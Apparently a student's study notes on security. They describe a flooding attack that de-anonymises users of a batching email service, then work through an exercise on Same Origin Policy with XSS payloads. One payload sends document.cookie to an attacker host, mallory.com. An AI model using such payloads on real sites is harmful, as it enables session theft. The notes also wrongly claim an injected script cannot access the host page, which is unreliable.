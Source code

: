 The attack is dependant on the adversary knowing that 105 messages is a constant on the server. The attack involves the adversary sending 104 messages of their own, and then working out the random numbers associated with a user.

1. The adversary tracks when a user on a compromised network sends an email to ZeroBit
2. The adversary immediately sends 104 emails to ZeroBit, dropping any other connections from the network to ensure they control 104/105 of these messages
3. All of these messages contain the adversary's own email as a recipient.
4. The adversary then checks to see the next messages that enter the network from ZeroBit, all 105 of them (since the recipient is on the same server).
5. These will all be of the form `random_number@zerobit.com`
6. The adversary can tell which of these are their own random number, and the one that isn't is the random number of that user.

The adversary can run this attack any time a email is sent to ZeroBit from a user with an unknown random number, to build up a local copy of the mapping table ZeroBit uses. Later, they can basically translate the zerobit emails to normal "A -> B" messages.
# Internet Cookies and Same Origin Policy
## a)
Explain how "origins" in the web browser and "processes" in operating systems are conceptually similar.

They are both "instances" of the same "resource", which can differ in capabilities depending on "who uses them".
Processes are instances of the same program - depending on who launches one, it can have different permissions when performing operations. 
Origins are where the original resource was invoked from - depending on the policies enacted by the website, they can have different permissions in what operations they can perform.

## b)
`AcmeBook` is a social media website that allows users to make posts which are hosted on `AcmeBook` servers

Assume *Mallory* makes the following post on `AcmeBook`:
```html
<script src="http://mallory.com/do.js"></script>
```
where `http://mallory.com` is a page controlled by *Mallory*. Also assume `AcmeBook` does not sanitise user inputs. What happens if *Alice* views *Mallory's* post? Justify your answer and in particular include what applies in terms of the [[Web Security#Same Origin Policy|Same Origin Policy]]

*I had to look up the [[Web Security#Same Origin Policy|Same Origin Policy]] for this one*

*Alice's* browser **will** run the script. It cannot access the source of `AcmeBook`, but it will run the script nonetheless - this is the extent of protection Same Origin Policy provides.

## c)
Assume now that *Mallory* makes the following post:
```html
<script src="http://mallory.com/do?token="
									+ document.cookie></script>
```
where `http://mallory.com/do` is a page controlled by *Mallory* that stores the URL query parameters in a database. And assume `AcmeBook` does not sanitise user inputs. If *Alice* views *Mallory's* post, which of the following cookies get sent to `mallory.com`?
